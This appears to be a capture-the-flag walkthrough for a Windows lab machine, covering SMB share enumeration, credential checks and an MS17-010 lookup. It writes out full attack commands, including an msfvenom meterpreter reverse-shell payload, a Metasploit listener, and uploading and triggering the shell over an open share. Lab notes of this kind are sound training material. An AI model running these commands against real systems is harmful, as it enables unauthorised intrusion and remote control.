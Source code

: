 1. did the nmap scan. found smb on 445 and RDP on 3389

2. enumerating SMB port
run smb client

[smbclient -L ip -p 445]
[locate .nse |grep smb-enum] - run these script using nmap scripts[nmap --script=]

after the enumerating we can find out that there is a share named nt4wrksv.  then we can log into it and see the content. 

[smbclient //ip/nt4wrksv] or [smbclient \\\\ip\\nt4wrksv]

we found password.txt in this share. its encoded using base64. lets be there later.

__ check whether users and passwords are valid __
use psexec.py

[python3 psexec.py 'bob:password@ip']

evil-winrm also can be used. but didn't work in this machine

[evil-winrm --ip ip --user username --password password]

3. run vulnerability scan using nmap script.

[nmap --script vuln -Pn -p ports ip] - -Pn - doesn't check whether ports are exist.

we found (ms17-010) remote code execution. 
using searchploit we can get eternalblue exploit. 

[searchsploit eternalblue]

lets mirror windows server 2016 exploit to current working dir.

[searchsploit -m ]


# first step

i went for this step. it seems easy. i created a revese shell using msfvenom and uploaded it to smb share and triggered it using web. 
creating the reverse shell. 

[msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.50.72 lport=4444 -f aspx -o shell.aspx]

also pentest.ws site can be used to create the same path to get the reverse shell

[ https://pentest.ws/tools/venom-builder ]

put the shell in shares. 
[smbclient //ip/sharename] then [put shell.aspx]

creating the listner 

[kali@kali:/data/vpn$ msfconsole -q
msf5 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
payload => windows/x64/meterpreter_reverse_tcp
msf5 exploit(multi/handler) > set lhost 10.8.50.72
lhost => 10.8.50.72
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > run]

triggering the shell.aspx

[curl http://ip:49663/sharename/shell.aspx]

then it will connect to the server. go to the bob desktop. there will be the user flag. 

[cd c:/users/bob/Desktop]


